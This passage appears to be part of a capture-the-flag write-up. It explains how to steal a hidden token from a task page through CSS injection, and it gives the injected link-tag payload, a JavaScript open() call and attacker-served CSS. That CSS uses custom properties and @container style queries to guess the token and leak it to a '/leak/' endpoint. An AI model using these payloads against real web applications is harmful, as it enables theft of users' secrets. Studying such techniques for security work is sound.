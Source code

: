 If testing locally, allow pop-ups to prevent the server response from redirecting to `/tasks` and to open a new tab, keeping the exploit running. The task page HTML will look like:

```
<td>
    <pre>
&lt;link rel=stylesheet href=/tasks&gt;&lt;link rel=stylesheet href=http://127.0.0.1:5001/css&gt;}aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{}*{--x:,
justToken{as...
    </pre>
</td>
```

Next, open this note with:

```
open(`${CHALL_URL}/tasks/preview/0/0`, 'prev');
```

Since our note is the latest, it opens at index 0/0.

Visiting `http://127.0.0.1:3000/tasks/preview/0/0?`, DevTools shows `/tasks` loaded as a CSS style via `<link rel=stylesheet href=/tasks>`.

As the browser loads HTML as a style, it ignores everything except valid CSS:

```
*{--x:,
justToken{ab...</pre>
        </td>
      </tr>
      
  </table>

  <form method="POST" action="/tasks/create">
    <button class="btn" type="submit">Create New Task</button>
  </form>

</body>

</html>
```

This defines a custom CSS property `x` with a comma and the token's start.

The second style, loaded on our page, guesses the token's first characters by comparing CSS properties:

```
<link rel=stylesheet href=http://127.0.0.1:5001/css>
```

Loads:

```
/css
@import "/var/a";
@container style(--x:var(--y)){
  body{
    background: red url('/leak/justToken{a');
  }
}

/var/a
*{--y:,
justToken{ab...</pre>
        </td>
      </tr>
```